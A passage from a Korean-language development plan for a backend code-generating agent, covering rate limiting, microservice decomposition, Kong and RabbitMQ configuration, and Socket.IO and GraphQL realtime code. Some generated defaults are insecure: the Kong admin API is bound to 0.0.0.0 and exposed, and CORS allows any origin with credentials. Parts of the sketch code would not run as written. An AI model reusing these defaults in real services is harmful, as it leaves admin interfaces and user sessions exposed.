      } catch (error) {
        next(error);
      }
    };
    
    return descriptor;
  };
}
`;
  }
}

// Security middleware generator
class SecurityMiddlewareGenerator {
  generateSecurityMiddleware(
    requirements: SecurityRequirements,
    framework: string,
  ): SecurityMiddleware[] {
    const middleware = [];

    // Rate limiting
    middleware.push({
      name: 'rateLimiter',
      code: this.generateRateLimiter(framework),
    });

    // CORS
    middleware.push({
      name: 'cors',
      code: this.generateCORS(framework),
    });

    // Security headers
    middleware.push({
      name: 'securityHeaders',
      code: this.generateSecurityHeaders(framework),
    });

    // Input validation
    middleware.push({
      name: 'inputValidation',
      code: this.generateInputValidation(framework),
    });

    // Request sanitization
    middleware.push({
      name: 'sanitization',
      code: this.generateSanitization(framework),
    });

    return middleware;
  }

  private generateRateLimiter(framework: string): string {
    return `
import rateLimit from 'express-rate-limit';
import RedisStore from 'rate-limit-redis';
import { redis } from '../utils/redis';

// General rate limiter
export const generalLimiter = rateLimit({
  store: new RedisStore({
    client: redis,
    prefix: 'rl:general:'
  }),
  windowMs: 15 * 60 * 1000, // 15 minutes
  max: 100, // Limit each IP to 100 requests per windowMs
  message: 'Too many requests from this IP, please try again later.',
  standardHeaders: true,
  legacyHeaders: false,
  handler: (req, res) => {
    res.status(429).json({
      error: 'Too Many Requests',
      message: 'Rate limit exceeded',
      retryAfter: req.rateLimit.resetTime
    });
  }
});

// Strict rate limiter for auth endpoints
export const authLimiter = rateLimit({
  store: new RedisStore({
    client: redis,
    prefix: 'rl:auth:'
  }),
  windowMs: 15 * 60 * 1000,
  max: 5,
  skipSuccessfulRequests: true,
  message: 'Too many authentication attempts',
  keyGenerator: (req) => {
    // Use combination of IP and username for auth endpoints
    return \`\${req.ip}:\${req.body.email || req.body.username || ''}\`;
  }
});

// API endpoint rate limiter with different tiers
export const apiLimiter = (tier: 'free' | 'basic' | 'premium' = 'free') => {
  const limits = {
    free: { windowMs: 60 * 60 * 1000, max: 100 },
    basic: { windowMs: 60 * 60 * 1000, max: 1000 },
    premium: { windowMs: 60 * 60 * 1000, max: 10000 }
  };
  
  return rateLimit({
    store: new RedisStore({
      client: redis,
      prefix: \`rl:api:\${tier}:\`
    }),
    ...limits[tier],
    keyGenerator: (req) => {
      // Use API key or user ID for authenticated requests
      const user = (req as any).user;
      return user ? \`user:\${user.userId}\` : \`ip:\${req.ip}\`;
    },
    skip: (req) => {
      // Skip rate limiting for certain user roles
      const user = (req as any).user;
      return user && user.roles.includes('admin');
    }
  });
};

// Dynamic rate limiting based on user behavior
export class DynamicRateLimiter {
  private suspiciousIPs = new Set<string>();
  
  async checkSuspiciousBehavior(req: any): Promise<boolean> {
    const key = \`suspicious:\${req.ip}\`;
    const count = await redis.incr(key);
    
    if (count === 1) {
      await redis.expire(key, 3600); // 1 hour
    }
    
    // Mark as suspicious after certain threshold
    if (count > 50) {
      this.suspiciousIPs.add(req.ip);
      return true;
    }
    
    return false;
  }
  
  middleware = async (req: any, res: any, next: any) => {
    if (this.suspiciousIPs.has(req.ip)) {
      return res.status(429).json({
        error: 'Too Many Requests',
        message: 'Your IP has been temporarily blocked due to suspicious activity'
      });
    }
    
    const isSuspicious = await this.checkSuspiciousBehavior(req);
    if (isSuspicious) {
      return res.status(429).json({
        error: 'Too Many Requests',
        message: 'Suspicious activity detected'
      });
    }
    
    next();
  };
}

export const dynamicLimiter = new DynamicRateLimiter();
`;
  }
}
```

**검증 기준**:

- [ ] JWT 기반 인증 구현
- [ ] RBAC 권한 관리
- [ ] 보안 미들웨어 생성
- [ ] Rate limiting 구현

---

### Task 4.16: Backend Agent 고급 기능

#### SubTask 4.16.1: 마이크로서비스 아키텍처 지원

**담당자**: 마이크로서비스 아키텍트  
**예상 소요시간**: 12시간

**작업 내용**:

```python
# backend/src/agents/implementations/microservice_generator.py
from typing import Dict, List, Optional, Any
from dataclasses import dataclass
from enum import Enum

@dataclass
class MicroserviceArchitecture:
    services: List[MicroserviceDefinition]
    api_gateway: APIGatewayConfiguration
    service_mesh: Optional[ServiceMeshConfiguration]
    message_broker: MessageBrokerConfiguration
    service_registry: ServiceRegistryConfiguration
    distributed_tracing: TracingConfiguration
    deployment_configs: Dict[str, DeploymentConfig]

class MicroserviceGenerator:
    """마이크로서비스 아키텍처 생성기"""

    def __init__(self):
        self.service_decomposer = ServiceDecomposer()
        self.api_gateway_generator = APIGatewayGenerator()
        self.service_mesh_generator = ServiceMeshGenerator()
        self.messaging_generator = MessagingGenerator()
        self.deployment_generator = DeploymentGenerator()

    async def generate_microservice_architecture(
        self,
        requirements: ProjectRequirements,
        monolithic_design: BackendCodeStructure
    ) -> MicroserviceArchitecture:
        """모놀리식 설계를 마이크로서비스로 분해"""

        # 1. 서비스 경계 식별
        service_boundaries = await self.service_decomposer.identify_boundaries(
            requirements,
            monolithic_design
        )

        # 2. 마이크로서비스 생성
        services = []
        for boundary in service_boundaries:
            service = await self._generate_microservice(
                boundary,
                requirements
            )
            services.append(service)

        # 3. API Gateway 설정
        api_gateway = await self.api_gateway_generator.generate(
            services,
            requirements
        )

        # 4. Service Mesh 설정 (선택적)
        service_mesh = None
        if requirements.scale == 'large' or requirements.features.includes('service_mesh'):
            service_mesh = await self.service_mesh_generator.generate(
                services
            )

        # 5. 메시지 브로커 설정
        message_broker = await self.messaging_generator.generate(
            services,
            requirements
        )

        # 6. 서비스 레지스트리
        service_registry = await self._generate_service_registry(
            services
        )

        # 7. 분산 추적
        distributed_tracing = await self._generate_tracing_config(
            services
        )

        # 8. 배포 설정
        deployment_configs = await self.deployment_generator.generate(
            services,
            requirements
        )

        return MicroserviceArchitecture(
            services=services,
            api_gateway=api_gateway,
            service_mesh=service_mesh,
            message_broker=message_broker,
            service_registry=service_registry,
            distributed_tracing=distributed_tracing,
            deployment_configs=deployment_configs
        )

    async def _generate_microservice(
        self,
        boundary: ServiceBoundary,
        requirements: ProjectRequirements
    ) -> MicroserviceDefinition:
        """개별 마이크로서비스 생성"""

        return MicroserviceDefinition(
            name=boundary.name,
            description=boundary.description,
            domain=boundary.domain,
            api_endpoints=await self._generate_service_api(boundary),
            database_config=await self._generate_service_database(boundary),
            messaging_config=await self._generate_service_messaging(boundary),
            dependencies=boundary.dependencies,
            code_structure=await self._generate_service_code(boundary),
            dockerfile=await self._generate_dockerfile(boundary),
            kubernetes_manifests=await self._generate_k8s_manifests(boundary),
            monitoring_config=await self._generate_monitoring(boundary)
        )

class ServiceDecomposer:
    """서비스 분해 로직"""

    async def identify_boundaries(
        self,
        requirements: ProjectRequirements,
        monolithic_design: BackendCodeStructure
    ) -> List[ServiceBoundary]:
        """DDD 기반 서비스 경계 식별"""

        boundaries = []

        # 1. 도메인 분석
        domains = self._analyze_domains(monolithic_design)

        # 2. Bounded Context 식별
        for domain in domains:
            # 응집도 분석
            cohesion_score = self._calculate_cohesion(domain)

            # 결합도 분석
            coupling_score = self._calculate_coupling(domain, domains)

            # 독립성 평가
            if cohesion_score > 0.7 and coupling_score < 0.3:
                boundary = ServiceBoundary(
                    name=domain.name,
                    description=domain.description,
                    domain=domain,
                    entities=self._extract_domain_entities(domain, monolithic_design),
                    operations=self._extract_domain_operations(domain, monolithic_design),
                    dependencies=self._identify_dependencies(domain, domains)
                )
                boundaries.append(boundary)

        # 3. 공통 서비스 추출
        common_services = self._extract_common_services(monolithic_design)
        boundaries.extend(common_services)

        return boundaries

    def _extract_common_services(
        self,
        monolithic_design: BackendCodeStructure
    ) -> List[ServiceBoundary]:
        """공통 서비스 추출 (인증, 알림, 파일 등)"""

        common_services = []

        # Authentication Service
        if self._has_authentication(monolithic_design):
            common_services.append(ServiceBoundary(
                name="auth-service",
                description="Authentication and authorization service",
                domain=Domain(name="auth", type="support"),
                entities=["User", "Role", "Permission", "Session"],
                operations=["login", "logout", "refresh", "verify", "authorize"],
                dependencies=[]
            ))

        # Notification Service
        if self._has_notifications(monolithic_design):
            common_services.append(ServiceBoundary(
                name="notification-service",
                description="Email, SMS, and push notification service",
                domain=Domain(name="notification", type="support"),
                entities=["Notification", "Template", "Channel", "Subscription"],
                operations=["send", "schedule", "track", "unsubscribe"],
                dependencies=["auth-service"]
            ))

        # File Service
        if self._has_file_handling(monolithic_design):
            common_services.append(ServiceBoundary(
                name="file-service",
                description="File upload, storage, and processing service",
                domain=Domain(name="file", type="support"),
                entities=["File", "Folder", "Permission"],
                operations=["upload", "download", "delete", "transform"],
                dependencies=["auth-service"]
            ))

        return common_services

class APIGatewayGenerator:
    """API Gateway 생성기"""

    async def generate(
        self,
        services: List[MicroserviceDefinition],
        requirements: ProjectRequirements
    ) -> APIGatewayConfiguration:
        """API Gateway 설정 생성"""

        gateway_type = self._select_gateway_type(requirements)

        if gateway_type == "kong":
            return await self._generate_kong_config(services)
        elif gateway_type == "nginx":
            return await self._generate_nginx_config(services)
        elif gateway_type == "aws-api-gateway":
            return await self._generate_aws_api_gateway(services)
        else:
            return await self._generate_custom_gateway(services)

    async def _generate_kong_config(
        self,
        services: List[MicroserviceDefinition]
    ) -> APIGatewayConfiguration:
        """Kong API Gateway 설정"""

        config = {
            "services": [],
            "routes": [],
            "plugins": []
        }

        for service in services:
            # Service definition
            service_config = {
                "name": service.name,
                "url": f"http://{service.name}:8080",
                "retries": 5,
                "connect_timeout": 60000,
                "write_timeout": 60000,
                "read_timeout": 60000
            }
            config["services"].append(service_config)

            # Routes
            for endpoint in service.api_endpoints:
                route = {
                    "name": f"{service.name}-{endpoint.path.replace('/', '-')}",
                    "service": service.name,
                    "paths": [f"/api/{service.name}{endpoint.path}"],
                    "methods": [endpoint.method],
                    "strip_path": True
                }
                config["routes"].append(route)

        # Global plugins
        config["plugins"] = [
            {
                "name": "jwt",
                "config": {
                    "secret_is_base64": False,
                    "run_on_preflight": True
                }
            },
            {
                "name": "rate-limiting",
                "config": {
                    "minute": 60,
                    "hour": 1000,
                    "policy": "local"
                }
            },
            {
                "name": "cors",
                "config": {
                    "origins": ["*"],
                    "methods": ["GET", "POST", "PUT", "DELETE", "OPTIONS"],
                    "headers": ["Accept", "Authorization", "Content-Type"],
                    "exposed_headers": ["X-Auth-Token"],
                    "credentials": True,
                    "max_age": 3600
                }
            },
            {
                "name": "prometheus",
                "config": {
                    "per_consumer": True
                }
            }
        ]

        # Generate declarative config
        declarative_config = f"""
_format_version: "2.1"

services:
{self._yaml_dump(config['services'])}

routes:
{self._yaml_dump(config['routes'])}

plugins:
{self._yaml_dump(config['plugins'])}
"""

        # Generate Dockerfile
        dockerfile = """
FROM kong:2.8-alpine

COPY kong.yml /usr/local/kong/declarative/kong.yml

ENV KONG_DATABASE=off
ENV KONG_DECLARATIVE_CONFIG=/usr/local/kong/declarative/kong.yml
ENV KONG_PROXY_ACCESS_LOG=/dev/stdout
ENV KONG_ADMIN_ACCESS_LOG=/dev/stdout
ENV KONG_PROXY_ERROR_LOG=/dev/stderr
ENV KONG_ADMIN_ERROR_LOG=/dev/stderr
ENV KONG_ADMIN_LISTEN=0.0.0.0:8001

EXPOSE 8000 8443 8001 8444

ENTRYPOINT ["/docker-entrypoint.sh"]
CMD ["kong", "docker-start"]
"""

        return APIGatewayConfiguration(
            type="kong",
            config=config,
            declarative_config=declarative_config,
            dockerfile=dockerfile,
            deployment_manifest=await self._generate_gateway_k8s_manifest("kong")
        )

class MessagingGenerator:
    """메시징 시스템 생성기"""

    async def generate(
        self,
        services: List[MicroserviceDefinition],
        requirements: ProjectRequirements
    ) -> MessageBrokerConfiguration:
        """메시지 브로커 설정 생성"""

        # 메시지 브로커 선택
        broker_type = self._select_broker_type(requirements)

        # 이벤트 분석
        events = await self._analyze_service_events(services)

        if broker_type == "rabbitmq":
            return await self._generate_rabbitmq_config(services, events)
        elif broker_type == "kafka":
            return await self._generate_kafka_config(services, events)
        elif broker_type == "redis":
            return await self._generate_redis_pubsub_config(services, events)
        else:
            return await self._generate_nats_config(services, events)

    async def _generate_rabbitmq_config(
        self,
        services: List[MicroserviceDefinition],
        events: List[Event]
    ) -> MessageBrokerConfiguration:
        """RabbitMQ 설정 생성"""

        # Exchange and Queue definitions
        exchanges = []
        queues = []
        bindings = []

        # Topic exchange for events
        exchanges.append({
            "name": "events",
            "type": "topic",
            "durable": True,
            "auto_delete": False
        })

        # Direct exchange for commands
        exchanges.append({
            "name": "commands",
            "type": "direct",
            "durable": True,
            "auto_delete": False
        })

        # Generate queues and bindings for each service
        for service in services:
            # Event queue
            queue_name = f"{service.name}.events"
            queues.append({
                "name": queue_name,
                "durable": True,
                "exclusive": False,
                "auto_delete": False,
                "arguments": {
                    "x-message-ttl": 3600000,  # 1 hour
                    "x-max-length": 10000
                }
            })

            # Bind to relevant events
            for event in events:
                if service.name in event.consumers:
                    bindings.append({
                        "source": "events",
                        "destination": queue_name,
                        "routing_key": f"{event.producer}.{event.name}"
                    })

        # RabbitMQ configuration
        config = {
            "exchanges": exchanges,
            "queues": queues,
            "bindings": bindings,
            "policies": [
                {
                    "name": "ha-all",
                    "pattern": ".*",
                    "apply-to": "all",
                    "definition": {
                        "ha-mode": "all",
                        "ha-sync-mode": "automatic"
                    }
                }
            ]
        }

        # Client library code
        client_code = """
import amqplib from 'amqplib';
import { EventEmitter } from 'events';

export class MessageBroker extends EventEmitter {
  private connection: amqplib.Connection | null = null;
  private channel: amqplib.Channel | null = null;

  async connect(url: string): Promise<void> {
    this.connection = await amqplib.connect(url);
    this.channel = await this.connection.createChannel();

    // Handle connection errors
    this.connection.on('error', (err) => {
      console.error('RabbitMQ connection error:', err);
      this.reconnect();
    });

    // Setup exchanges
    await this.setupExchanges();
  }

  async publish(
    exchange: string,
    routingKey: string,
    message: any,
    options?: amqplib.Options.Publish
  ): Promise<void> {
    if (!this.channel) {
      throw new Error('Not connected to message broker');
    }

    const buffer = Buffer.from(JSON.stringify(message));

    await this.channel.publish(
      exchange,
      routingKey,
      buffer,
      {
        persistent: true,
        contentType: 'application/json',
        timestamp: Date.now(),
        ...options
      }
    );
  }

  async subscribe(
    queue: string,
    handler: (message: any) => Promise<void>,
    options?: amqplib.Options.Consume
  ): Promise<void> {
    if (!this.channel) {
      throw new Error('Not connected to message broker');
    }

    await this.channel.consume(
      queue,
      async (msg) => {
        if (!msg) return;

        try {
          const content = JSON.parse(msg.content.toString());
          await handler(content);
          this.channel!.ack(msg);
        } catch (error) {
          console.error('Error processing message:', error);
          // Requeue message
          this.channel!.nack(msg, false, true);
        }
      },
      options
    );
  }

  private async setupExchanges(): Promise<void> {
    if (!this.channel) return;

    // Event exchange
    await this.channel.assertExchange('events', 'topic', {
      durable: true
    });

    // Command exchange
    await this.channel.assertExchange('commands', 'direct', {
      durable: true
    });

    // Dead letter exchange
    await this.channel.assertExchange('dlx', 'topic', {
      durable: true
    });
  }
}
"""

        return MessageBrokerConfiguration(
            type="rabbitmq",
            config=config,
            client_code=client_code,
            docker_compose=self._generate_rabbitmq_compose(),
            kubernetes_manifest=self._generate_rabbitmq_k8s()
        )
```

**검증 기준**:

- [ ] 서비스 경계 자동 식별
- [ ] API Gateway 설정 생성
- [ ] 메시징 시스템 구성
- [ ] 컨테이너화 및 오케스트레이션

#### SubTask 4.16.2: 실시간 기능 구현

**담당자**: 실시간 시스템 개발자  
**예상 소요시간**: 10시간

**작업 내용**:

```typescript
// backend/src/agents/implementations/realtime-generator.ts
interface RealtimeImplementation {
  websocket: WebSocketConfiguration;
  sse: SSEConfiguration;
  graphqlSubscriptions: GraphQLSubscriptionConfig;
  pubsub: PubSubConfiguration;
  scaling: ScalingConfiguration;
}

class RealtimeFeatureGenerator {
  async generateRealtimeFeatures(
    requirements: RealtimeRequirements,
    framework: string,
  ): Promise<RealtimeImplementation> {
    const implementation: RealtimeImplementation = {
      websocket: await this.generateWebSocket(requirements, framework),
      sse: await this.generateSSE(requirements, framework),
      graphqlSubscriptions: await this.generateGraphQLSubscriptions(requirements),
      pubsub: await this.generatePubSub(requirements),
      scaling: await this.generateScalingConfig(requirements),
    };

    return implementation;
  }

  private async generateWebSocket(
    requirements: RealtimeRequirements,
    framework: string,
  ): Promise<WebSocketConfiguration> {
    if (framework === 'express' || framework === 'nestjs') {
      return this.generateSocketIOImplementation(requirements);
    }

    return this.generateWSImplementation(requirements);
  }

  private generateSocketIOImplementation(
    requirements: RealtimeRequirements,
  ): WebSocketConfiguration {
    const serverCode = `
import { Server as SocketIOServer, Socket } from 'socket.io';
import { Server as HTTPServer } from 'http';
import { Redis } from 'ioredis';
import { createAdapter } from '@socket.io/redis-adapter';
import { instrument } from '@socket.io/admin-ui';
import { verify } from 'jsonwebtoken';
import { rateLimiter } from './rateLimiter';

export class WebSocketServer {
  private io: SocketIOServer;
  private pubClient: Redis;
  private subClient: Redis;
  private connections: Map<string, Set<string>> = new Map();
  
  constructor(httpServer: HTTPServer) {
    // Redis clients for scaling
    this.pubClient = new Redis({
      host: process.env.REDIS_HOST,
      port: parseInt(process.env.REDIS_PORT || '6379'),
      password: process.env.REDIS_PASSWORD
    });
    
    this.subClient = this.pubClient.duplicate();
    
    // Initialize Socket.IO with clustering support
    this.io = new SocketIOServer(httpServer, {
      cors: {
        origin: process.env.ALLOWED_ORIGINS?.split(',') || '*',
        credentials: true
      },
      transports: ['websocket', 'polling'],
      pingTimeout: 60000,
      pingInterval: 25000,
      upgradeTimeout: 30000,
      maxHttpBufferSize: 1e6, // 1MB
      adapter: createAdapter(this.pubClient, this.subClient)
    });
    
    // Admin UI for monitoring
    instrument(this.io, {
      auth: {
        type: 'basic',
        username: process.env.SOCKETIO_ADMIN_USERNAME!,
        password: process.env.SOCKETIO_ADMIN_PASSWORD!
      },
      mode: 'development'
    });
    
    this.setupMiddleware();
    this.setupEventHandlers();
    this.setupRooms();
  }
  
  private setupMiddleware(): void {
    // Authentication middleware
    this.io.use(async (socket: Socket, next) => {
      try {
        const token = socket.handshake.auth.token || 
                     socket.handshake.headers.authorization?.split(' ')[1];
        
        if (!token) {
          return next(new Error('Authentication required'));
        }
        
        const decoded = verify(token, process.env.JWT_SECRET!) as any;
        socket.data.user = decoded;
        socket.data.userId = decoded.userId;
        
        next();
      } catch (error) {
        next(new Error('Invalid token'));
      }
    });
    
    // Rate limiting middleware
    this.io.use(async (socket: Socket, next) => {
      try {
        await rateLimiter.consume(socket.handshake.address);
        next();
      } catch (error) {
        next(new Error('Rate limit exceeded'));
      }
    });
  }
  
  private setupEventHandlers(): void {
    this.io.on('connection', async (socket: Socket) => {
      const userId = socket.data.userId;
      console.log(\`User \${userId} connected\`);
      
      // Track user connections
      this.addUserConnection(userId, socket.id);
      
      // Join user-specific room
      await socket.join(\`user:\${userId}\`);
      
      // Join organization rooms
      const userOrgs = await this.getUserOrganizations(userId);
      for (const orgId of userOrgs) {
        await socket.join(\`org:\${orgId}\`);
      }
      
      // Notify user status
      this.broadcastUserStatus(userId, 'online');
      
      // Setup event listeners
      this.setupSocketEventListeners(socket);
      
      // Handle disconnect
      socket.on('disconnect', () => {
        this.removeUserConnection(userId, socket.id);
        
        // Check if user has no more connections
        if (!this.hasActiveConnections(userId)) {
          this.broadcastUserStatus(userId, 'offline');
        }
      });
    });
  }
  
  private setupSocketEventListeners(socket: Socket): void {
    // Join/leave rooms
    socket.on('join:room', async (roomId: string) => {
      // Validate room access
      if (await this.canJoinRoom(socket.data.userId, roomId)) {
        await socket.join(roomId);
        socket.emit('joined:room', { roomId });
      } else {
        socket.emit('error', { message: 'Access denied to room' });
      }
    });
    
    socket.on('leave:room', async (roomId: string) => {
      await socket.leave(roomId);
      socket.emit('left:room', { roomId });
    });
    
    // Message handling
    socket.on('message:send', async (data: {
      roomId: string;
      message: string;
      type: 'text' | 'image' | 'file';
      metadata?: any;
    }) => {
      try {
        // Validate message
        if (!data.message || data.message.length > 1000) {
          throw new Error('Invalid message');
        }
        
        // Save message to database
        const message = await this.saveMessage({
          ...data,
          userId: socket.data.userId,
          timestamp: new Date()
        });
        
        // Broadcast to room
        this.io.to(data.roomId).emit('message:new', message);
        
        // Send push notifications to offline users
        await this.sendPushNotifications(data.roomId, message);
      } catch (error) {
        socket.emit('error', { 
          message: 'Failed to send message',
          error: error.message 
        });
      }
    });
    
    // Typing indicators
    socket.on('typing:start', ({ roomId }) => {
      socket.to(roomId).emit('typing:user', {
        userId: socket.data.userId,
        isTyping: true
      });
    });
    
    socket.on('typing:stop', ({ roomId }) => {
      socket.to(roomId).emit('typing:user', {
        userId: socket.data.userId,
        isTyping: false
      });
    });
    
    // Presence
    socket.on('presence:update', async (status: string) => {
      await this.updateUserPresence(socket.data.userId, status);
      
      // Broadcast to user's contacts
      const contacts = await this.getUserContacts(socket.data.userId);
      for (const contactId of contacts) {
        this.io.to(\`user:\${contactId}\`).emit('presence:changed', {
          userId: socket.data.userId,
          status
        });
      }
    });
    
    // Real-time collaboration
    socket.on('doc:operation', async (data: {
      documentId: string;
      operation: any;
      version: number;
    }) => {
      try {
        // Apply operational transformation
        const transformed = await this.transformOperation(
          data.documentId,
          data.operation,
          data.version
        );
        
        // Broadcast to document collaborators
        socket.to(\`doc:\${data.documentId}\`).emit('doc:operation', {
          operation: transformed,
          userId: socket.data.userId,
          version: transformed.version
        });
      } catch (error) {
        socket.emit('doc:conflict', {
          documentId: data.documentId,
          error: error.message
        });
      }
    });
  }
  
  // Public methods for server-side events
  async broadcastToUser(userId: string, event: string, data: any): Promise<void> {
    this.io.to(\`user:\${userId}\`).emit(event, data);
  }
  
  async broadcastToRoom(roomId: string, event: string, data: any): Promise<void> {
    this.io.to(roomId).emit(event, data);
  }
  
  async broadcastToOrganization(orgId: string, event: string, data: any): Promise<void> {
    this.io.to(\`org:\${orgId}\`).emit(event, data);
  }
  
  async getOnlineUsers(): Promise<string[]> {
    return Array.from(this.connections.keys());
  }
  
  async getRoomMembers(roomId: string): Promise<string[]> {
    const sockets = await this.io.in(roomId).fetchSockets();
    return sockets.map(s => s.data.userId);
  }
  
  // Connection management
  private addUserConnection(userId: string, socketId: string): void {
    if (!this.connections.has(userId)) {
      this.connections.set(userId, new Set());
    }
    this.connections.get(userId)!.add(socketId);
  }
  
  private removeUserConnection(userId: string, socketId: string): void {
    const userConnections = this.connections.get(userId);
    if (userConnections) {
      userConnections.delete(socketId);
      if (userConnections.size === 0) {
        this.connections.delete(userId);
      }
    }
  }
  
  private hasActiveConnections(userId: string): boolean {
    return this.connections.has(userId) && 
           this.connections.get(userId)!.size > 0;
  }
}

// Rate limiter for WebSocket connections
class WebSocketRateLimiter {
  private limits: Map<string, number> = new Map();
  private readonly maxConnectionsPerIP = 10;
  private readonly maxEventsPerMinute = 60;
  
  async consume(ip: string): Promise<void> {
    const connections = this.limits.get(ip) || 0;
    
    if (connections >= this.maxConnectionsPerIP) {
      throw new Error('Connection limit exceeded');
    }
    
    this.limits.set(ip, connections + 1);
    
    // Clean up after disconnect
    setTimeout(() => {
      const current = this.limits.get(ip) || 0;
      if (current > 0) {
        this.limits.set(ip, current - 1);
      }
    }, 60000); // 1 minute
  }
}
`;

    const clientCode = `
import { io, Socket } from 'socket.io-client';
import { EventEmitter } from 'events';

export class WebSocketClient extends EventEmitter {
  private socket: Socket | null = null;
  private reconnectAttempts = 0;
  private maxReconnectAttempts = 5;
  private reconnectDelay = 1000;
  
  async connect(url: string, token: string): Promise<void> {
    return new Promise((resolve, reject) => {
      this.socket = io(url, {
        auth: { token },
        transports: ['websocket', 'polling'],
        reconnection: true,
        reconnectionAttempts: this.maxReconnectAttempts,
        reconnectionDelay: this.reconnectDelay,
        reconnectionDelayMax: 10000,
        timeout: 20000
      });
      
      this.socket.on('connect', () => {
        console.log('WebSocket connected');
        this.reconnectAttempts = 0;
        this.emit('connected');
        resolve();
      });
      
      this.socket.on('disconnect', (reason) => {
        console.log('WebSocket disconnected:', reason);
        this.emit('disconnected', reason);
        
        if (reason === 'io server disconnect') {
          // Server forced disconnect, try to reconnect
          this.reconnect();
        }
      });
      
      this.socket.on('error', (error) => {
        console.error('WebSocket error:', error);
        this.emit('error', error);
        reject(error);
      });
      
      // Setup message handlers
      this.setupMessageHandlers();
    });
  }
  
  private setupMessageHandlers(): void {
    if (!this.socket) return;
    
    // Message events
    this.socket.on('message:new', (message) => {
      this.emit('message', message);
    });
    
    // Typing indicators
    this.socket.on('typing:user', ({ userId, isTyping }) => {
      this.emit('typing', { userId, isTyping });
    });
    
    // Presence updates
    this.socket.on('presence:changed', ({ userId, status }) => {
      this.emit('presence', { userId, status });
    });
    
    // Document collaboration
    this.socket.on('doc:operation', (data) => {
      this.emit('document:change', data);
    });
    
    this.socket.on('doc:conflict', (data) => {
      this.emit('document:conflict', data);
    });
  }
  
  // Public methods
  joinRoom(roomId: string): Promise<void> {
    return new Promise((resolve, reject) => {
      if (!this.socket) {
        reject(new Error('Not connected'));
        return;
      }
      
      this.socket.emit('join:room', roomId);
      
      this.socket.once('joined:room', ({ roomId: joinedRoom }) => {
        if (joinedRoom === roomId) {
          resolve();
        }
      });
      
      this.socket.once('error', (error) => {
        reject(error);
      });
    });
  }
  
  sendMessage(roomId: string, message: string, type: 'text' | 'image' | 'file' = 'text'): void {
    if (!this.socket) {
      throw new Error('Not connected');
    }
    
    this.socket.emit('message:send', {
      roomId,
      message,
      type
    });
  }
  
  startTyping(roomId: string): void {
    if (!this.socket) return;
    this.socket.emit('typing:start', { roomId });
  }
  
  stopTyping(roomId: string): void {
    if (!this.socket) return;
    this.socket.emit('typing:stop', { roomId });
  }
  
  updatePresence(status: string): void {
    if (!this.socket) return;
    this.socket.emit('presence:update', status);
  }
  
  sendDocumentOperation(documentId: string, operation: any, version: number): void {
    if (!this.socket) return;
    
    this.socket.emit('doc:operation', {
      documentId,
      operation,
      version
    });
  }
  
  disconnect(): void {
    if (this.socket) {
      this.socket.disconnect();
      this.socket = null;
    }
  }
  
  private reconnect(): void {
    if (this.reconnectAttempts >= this.maxReconnectAttempts) {
      this.emit('reconnect:failed');
      return;
    }
    
    this.reconnectAttempts++;
    
    setTimeout(() => {
      console.log(\`Reconnect attempt \${this.reconnectAttempts}\`);
      this.socket?.connect();
    }, this.reconnectDelay * this.reconnectAttempts);
  }
}

// React hook for WebSocket
export const useWebSocket = (url: string, token: string) => {
  const [client, setClient] = useState<WebSocketClient | null>(null);
  const [connected, setConnected] = useState(false);
  const [error, setError] = useState<Error | null>(null);
  
  useEffect(() => {
    const wsClient = new WebSocketClient();
    
    wsClient.on('connected', () => setConnected(true));
    wsClient.on('disconnected', () => setConnected(false));
    wsClient.on('error', (err) => setError(err));
    
    wsClient.connect(url, token)
      .then(() => setClient(wsClient))
      .catch(setError);
    
    return () => {
      wsClient.disconnect();
    };
  }, [url, token]);
  
  return { client, connected, error };
};
`;

    return {
      serverCode,
      clientCode,
      scalingConfig: this.generateSocketIOScaling(),
      nginxConfig: this.generateWebSocketNginx(),
    };
  }
}

// GraphQL Subscriptions
class GraphQLSubscriptionGenerator {
  generateSubscriptions(requirements: RealtimeRequirements): string {
    return `
import { PubSub } from 'graphql-subscriptions';
import { RedisPubSub } from 'graphql-redis-subscriptions';
import { withFilter } from 'graphql-subscriptions';
import Redis from 'ioredis';

// Use Redis PubSub for production
const pubsub = process.env.NODE_ENV === 'production'
  ? new RedisPubSub({
      publisher: new Redis({
        host: process.env.REDIS_HOST,
        port: parseInt(process.env.REDIS_PORT || '6379'),
        password: process.env.REDIS_PASSWORD
      }),
      subscriber: new Redis({
        host: process.env.REDIS_HOST,
        port: parseInt(process.env.REDIS_PORT || '6379'),
        password: process.env.REDIS_PASSWORD
      })
    })
  : new PubSub();

// Subscription topics
export const TOPICS = {
  MESSAGE_ADDED: 'MESSAGE_ADDED',
  USER_TYPING: 'USER_TYPING',
  USER_STATUS_CHANGED: 'USER_STATUS_CHANGED',
  NOTIFICATION_RECEIVED: 'NOTIFICATION_RECEIVED',
  DATA_UPDATED: 'DATA_UPDATED'
};

export const subscriptionResolvers = {
  Subscription: {
    // Message subscription
    messageAdded: {
      subscribe: withFilter(
        () => pubsub.asyncIterator(TOPICS.MESSAGE_ADDED),
        (payload, variables, context) => {
          // Filter messages based on room access
          return context.user && 
                 payload.roomId === variables.roomId &&
                 context.user.rooms.includes(variables.roomId);
        }
      )
    },
    
    // Typing indicator
    userTyping: {
      subscribe: withFilter(
        () => pubsub.asyncIterator(TOPICS.USER_TYPING),
        (payload, variables) => payload.roomId === variables.roomId
      )
    },
    
    // User status
    userStatusChanged: {
      subscribe: withFilter(
        () => pubsub.asyncIterator(TOPICS.USER_STATUS_CHANGED),
        (payload, variables, context) => {
          // Only send to user's contacts
          return context.user && 
                 context.user.contacts.includes(payload.userId);
        }
      )
    },
    
    // Notifications
    notificationReceived: {
      subscribe: withFilter(
        () => pubsub.asyncIterator(TOPICS.NOTIFICATION_RECEIVED),
        (payload, variables, context) => {
          return context.user && payload.userId === context.user.id;
        }
      )
    },
    
    // Real-time data updates
    dataUpdated: {
      subscribe: withFilter(
        () => pubsub.asyncIterator(TOPICS.DATA_UPDATED),
        (payload, variables) => {
          // Filter by entity type and ID
          return payload.entityType === variables.entityType &&
                 (!variables.entityId || payload.entityId === variables.entityId);
        }
      )
    }
  }
};

// Helper functions for publishing events
export const publishMessage = async (message: Message) => {
  await pubsub.publish(TOPICS.MESSAGE_ADDED, {
    messageAdded: message,
    roomId: message.roomId
  });
};

export const publishTyping = async (roomId: string, userId: string, isTyping: boolean) => {
  await pubsub.publish(TOPICS.USER_TYPING, {
    userTyping: { userId, isTyping, timestamp: new Date() },
    roomId
  });
};

export const publishUserStatus = async (userId: string, status: string) => {
  await pubsub.publish(TOPICS.USER_STATUS_CHANGED, {
    userStatusChanged: { userId, status, timestamp: new Date() },
    userId
  });
};

export const publishNotification = async (notification: Notification) => {
  await pubsub.publish(TOPICS.NOTIFICATION_RECEIVED, {
    notificationReceived: notification,
